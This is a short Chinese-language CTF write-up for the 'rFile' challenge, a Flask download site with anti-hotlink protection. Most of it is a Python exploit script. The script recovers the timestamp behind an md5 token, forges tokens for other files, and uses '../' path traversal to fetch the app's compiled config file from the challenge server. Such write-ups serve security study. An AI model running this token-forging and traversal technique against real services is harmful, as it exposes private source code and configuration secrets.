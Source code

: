 # Rfile #

```
An anti-hotlink file storage.
```
hint
```
rFile is powered by flask, it's designed to be a Large Application at first
```

站内是个下载站，站内的下载做了防盗链，看index.js可以发现每30s会请求api/download，会返回json格式的数据。

![image.png-84.2kB][11]

测试一下发现token是md5(filename+timestamp)，那我们可以随便写个exp

```
import requests
import hashlib   
import json
import sys

reload(sys)
def md5(data):
	src = str(data)
	m2 = hashlib.md5()   
	m2.update(src)   
	return m2.hexdigest()
def getTime(tmpToken,tmpFile,mtime):
	mtime = int(mtime)
	while True:
		if md5(str(mtime)+tmpFile) == tmpToken:
			return mtime
		else:
			mtime = mtime+1

def getToken(filename):
	url = "http://rfile.2017.teamrois.cn/api/download"
	req = requests.get(url=url)
	data = json.loads(req.text)
	tmpToken = data[0]['token']
	tmpFile = data[0]['fname']
	mtime = data[0]['mtime']
	stime = getTime(tmpToken,tmpFile,mtime)
	token = md5(str(stime)+filename)
	return token
def getFile(filename):
	token = getToken(filename)
	url = "http://rfile.2017.teamrois.cn/api/download/"+str(token)+"/"+filename
	print url
	req = requests.get(url = url)
	data = req.text
	print data
	# fp = open("./rfile/__init__.cpython-35.pyc","w")
	# fp.write(data)
	print "download success!"


getFile('../__pycache__/conf.cpython-35.pyc')
```


  [1]: http://static.zybuluo.com/LoRexxar/q2pugzy449ug7g2jwrtil2nb/QQ%E5%9B%BE%E7%89%8720170522042700.png
  [2]: http://static.zybuluo.com/LoRexxar/a30ck5pgg6c3s3cp2cszgqje/QQ%E5%9B%BE%E7%89%8720170522042704.png
  [3]: http://static.zybuluo.com/LoRexxar/xq1dvd410k4akjrkph9czibf/image.png
  [4]: http://static.zybuluo.com/LoRexxar/gatcaa6kdfsj5yp83tqr0gum/image.png
  [5]: http://static.zybuluo.com/LoRexxar/hw3a6uxucuisymxec92xlpf0/image.png
  [6]: http://static.zybuluo.com/LoRexxar/5lj4p4dzhmbwfyro8otybn55/image.png
  [7]: http://static.zybuluo.com/LoRexxar/j2zejln8rr685i5z2kqug0lz/image.png
  [8]: http://static.zybuluo.com/LoRexxar/i5msssh1l4rhwy7sba44n7f9/image.png
  [9]: http://static.zybuluo.com/LoRexxar/ed5svbcx61a5nuigungwferj/image.png
  [10]: http://static.zybuluo.com/LoRexxar/6k5gwkjg2oiv3v94asck3t4k/image.png
  [11]: http://static.zybuluo.com/LoRexxar/b7mq9ysh8bg8ufcti7j4f9qd/image.png
  [12]: http://static.zybuluo.com/LoRexxar/0uu94m6khrhwwabdak1i5pt8/image.png